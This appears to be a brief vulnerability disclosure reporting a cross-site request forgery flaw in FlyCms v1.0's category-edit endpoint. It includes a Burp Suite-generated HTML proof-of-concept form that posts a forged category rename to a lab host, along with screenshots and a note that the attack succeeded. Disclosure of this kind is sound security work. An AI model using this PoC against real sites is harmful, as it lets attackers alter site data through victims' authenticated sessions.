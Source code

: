 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/share/ztree_category_edit

![image-20240108165037892](.\image\image-20240108165037892.png)

Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/share/ztree_category_edit?id=1&name=%E7%A7%BB%E5%8A%A8%E5%BC%80%E5%8F%911" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```



![image-20240108165220660](.\image\image-20240108165220660.png)



Successed

![image-20240108165320556](.\image\image-20240108165320556.png)